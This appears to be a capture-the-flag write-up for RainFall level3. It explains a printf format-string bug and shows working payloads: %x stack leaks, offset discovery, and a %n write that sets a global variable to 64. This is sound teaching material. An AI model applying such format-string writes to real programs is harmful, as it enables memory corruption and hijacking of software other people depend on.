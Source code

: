 ```
 GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

This time we have a call to fgets, which is safe.

But right after there is a printf call, that uses the content of fgets as its format string (bad practice). We can exploit that to change the value of the m global variable.

This variable can be found at address 0x804988c and needs to have  or 64 as value but is set as 0.

https://cs.boisestate.edu/~jhyeh/cs546/Format-String-Lecture.pdf

If we were able to choose our vaargs then we could impact them.
But printf doesn't care there isn't any vaargs

```
level3@RainFall:~$ ./level3
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
200 b7fd1ac0 b7ff37d0 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 bfff000a
```

In order for the exploit listed above to work, we need to pass the m address as a printf argument, take note of its index, and have a modifier for said argument that will change its value, it's %n that will write to the param that must be a pointer to an int, the number of bytes written, in that case 64

```
~$ python -c 'print("AAAA%x " * 20)'| ./level3
AAAA 200AAAA b7fd1ac0AAAA b7ff37d0AAAA 41414141AAAA 41782520AAAA 20414141AAAA 41417825AAAA 25204141AAAA 41414178AAAA 78252041AAAA 41414141AAAA 41782520AAAA 20414141AAAA 41417825AAAA 25204141AAAA 41414178AAAA 78252041AAAA 41414141AAAA 41782520AAAA 20414141
```

We can find by seeing 41414141AAAA that our input string is the fourth argument to be picked up by printf.

\x8c\x98\x04\x08
```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08 %x %x%x%x")'| ./level3
� 200 b7fd1ac0 b7ff37d0 804988c
```
It does work indeed, so now we need to print 64 chars, and to help us with this, there a printf flag that specifies wich argument should be use, eg : `%4$s` prints the fourth arg as a string, and `%60d%4$s` adds 60 padding to it

```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "%60d%4$n")'| ./level3
�                                                         512
Wait what?!
```
